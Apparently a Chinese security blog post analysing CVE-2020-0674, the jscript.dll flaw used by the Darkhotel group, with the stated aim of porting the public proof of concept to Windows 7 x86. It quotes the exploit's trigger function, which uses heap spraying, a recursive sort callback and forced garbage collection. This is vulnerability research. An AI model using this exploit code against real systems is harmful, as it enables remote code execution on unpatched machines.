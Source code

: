 > 原文链接: https://www.anquanke.com//post/id/214254 


# CVE-2020-0674的分析与移植记录


                                阅读量   
                                **133106**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">45</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p0.ssl.qhimg.com/t0106187e3ab6e11069.png)](https://p0.ssl.qhimg.com/t0106187e3ab6e11069.png)



## 背景

CVE-2020-0674是被APT组织Darkhotel所利用的一个漏洞，完整的APT分析可以阅读360 核心安全技术博客上的[一篇文章](https://blogs.360.cn/post/apt-c-06_0day.html)。F-secure的研究员maxpl0it在[Github](https://github.com/maxpl0it/CVE-2020-0674-Exploit)上公开了一份针对win7 x64的poc，在分析过CVE-2017-11907和CVE-2018-8353后，笔者对jscript.dll模块中已经比较熟悉，这里尝试对CVE-2020-0674漏洞进行分析并在win7 x86上复现RCE。



## 漏洞原理

Github上提供的样本可读性非常好，根据maxpl0it的注释，很容易就定位到漏洞触发的函数

```
// initial_exploit: The main exploit function.
function initial_exploit(untracked_1, untracked_2) `{`
    untracked_1 = spray[depth*2];
    untracked_2 = spray[depth*2 + 1];
    if(depth &gt; 150) `{`
        spray = new Array(); // Erase spray
        CollectGarbage(); // Add to free
        for(i = 0; i &lt; overlay_size; i++) `{`
            overlay[i][variants] = 1;
            overlay[i][padding] = 1;
            overlay[i][leak] = 1;
            overlay[i][leaked_var] = i; 
        `}`
        total.push(untracked_1);
        total.push(untracked_2);
        return 0;
    `}`
    // Set pointers
    depth += 1;
    sort[depth].sort(initial_exploit);
    total.push(untracked_1);
    total.push(untracked_2);
    return 0;
`}`
```
